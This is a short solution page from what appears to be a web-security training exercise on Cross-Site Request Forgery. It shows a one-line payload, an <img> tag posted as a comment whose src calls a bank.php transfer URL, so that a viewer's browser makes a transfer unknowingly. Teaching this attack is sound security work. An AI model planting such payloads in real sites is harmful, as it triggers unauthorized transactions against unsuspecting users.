 # A8 Cross-Site Request Forgery (CSRF)

1.	Since the allowed tags list include `<img>`, the solution is quite simple.
	Tyr to insert the following "comment"

		<img src="http://site.com/bank.php?transferTo=555">

[Go to Ex5](./ex5.md) | [Go to Ex7](./ex7.md)

